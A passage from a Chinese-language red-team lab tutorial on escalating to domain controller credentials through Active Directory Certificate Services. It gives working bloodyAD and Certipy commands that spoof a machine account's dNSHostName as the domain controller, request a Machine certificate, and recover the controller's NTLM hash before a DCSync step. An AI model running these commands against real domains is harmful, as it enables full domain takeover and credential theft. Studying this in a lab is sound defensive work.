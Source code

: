 检查下，确实创建成功，不过没有预先设置dNSHostName和SPN

![OyDkdO.png](https://shs3.b.qianxin.com/attack_forum/2022/05/attach-75f2b9875eece2f4e7645c493bed7585dd8a826e.png)

**添加机器账户的dNSHostName**  
需要指定`可辩别名称(DistinguishedName, DN)`，

```shell
# 设置DNSHostName
proxychains python3 bloodyAD.py -d redteam.com -u user001 -p '123.com' --host 10.10.1.10 setAttribute 'CN=bloodyAD,CN=Computers,DC=redteam,DC=com' DNSHostName '["DC-WIN2012.redteam.com"]'

# 尝试修改SPN【无效】
proxychains python3 bloodyAD.py -d redteam.com -u user001 -p '123.com' --host 10.10.1.10 setAttribute 'CN=TEST,CN=Computers,DC=redteam,DC=com' servicePrincipalName 'test1/test2'
```

![OyDPL6.png](https://shs3.b.qianxin.com/attack_forum/2022/05/attach-adf55e59be9069f5608acca799dbc83b95e3a179.png)

**查询机器账户的DNSHostName**

```shell
proxychains python3 bloodyAD.py -d redteam.com -u user001 -p '123.com' --host 10.10.1.10 getObjectAttributes 'CN=TEST,CN=Computers,DC=redteam,DC=com' dnshostname
```

![OyDCsx.png](https://shs3.b.qianxin.com/attack_forum/2022/05/attach-bc48309f2569c06f2cee21525c2a83beb0357319.png)

3 申请证书
------

使用[Certipy](https://github.com/ly4k/Certipy)工具申请基于计算机模板的证书，这里的`redteam-DC-WIN2012-CA`在前面的AD CS配置中有设置到

```shell
# 使用Certipy为TEST$账户申请证书
proxychains certipy req 'redteam.com/WUHU$:Passw0rd@DC-WIN2012.redteam.com' -ca 'redteam-DC-WIN2012-CA' -template 'Machine'
```

![Orb9EQ.png](https://shs3.b.qianxin.com/attack_forum/2022/05/attach-1ee29a29caac57e7c06c1bef0bcec190298490c0.png)

4 检索Hash生成票据
------------

使用该证书进行认证，Certipy工具检索到了`DC-WIN2012$`的NTLM Hash。

```shell
proxychains certipy auth -pfx dc-win2012.pfx -username DC-WIN2012$ -domain redteam.com -dc-ip 10.10.1.10
```

![OrbCNj.png](https://shs3.b.qianxin.com/attack_forum/2022/05/attach-f348a6797efd0992fdd123f3bb5ba71cb45c4e19.png)

5 DCSync攻击
----------
